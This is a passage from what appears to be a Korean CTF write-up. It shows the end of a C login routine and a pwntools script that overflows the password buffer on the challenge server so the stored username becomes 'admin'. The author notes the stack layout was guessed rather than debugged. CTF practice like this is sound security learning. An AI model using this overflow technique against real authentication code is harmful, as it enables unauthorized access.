 ```c
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}
```

셀을 실행하기 위해서 필요한 조건은 `username`이 `admin`일 것, `admin` 비번 맞추기, `username`입력 시 `admin` 입력하지 말아야 함..  
`admin` 비번도 이미 주어져 있고 `username`에 일단 아무 값 넣고 오버플로우로 덮어서 `admin`으로 바꾸면 될 것 같다  

```python
from pwn import *

p = remote('chal.2025.ductf.net', 30000)

password = "🇦🇩🇲🇮🇳".encode()

payload = password + b"\x00"         # fill s1
payload += b"A"*(32-len(password)-1)
payload += b"admin"

p.recvuntil(b"Enter your username: ")
p.sendline(b"guest")

p.recvuntil(b"Enter your password: ")
p.sendline(payload)

p.interactive()
```

> 상특)) 디버깅 없이 통빡으로 스택 때려맞춤   

일단 `username` 입력 때 `admin`이 아닌 다른 값을 넣는다  

`password` 바로 뒤에 `username`이 있을 거라 예상하고 `admin`의 비밀번호를 쓰고 `username` 직전까지 더미값을 보낸다  

`username`을 `admin`으로 덮어쓴다  
<br>

---

![Image](/assets/img/250722_0/4.png)
<br>

---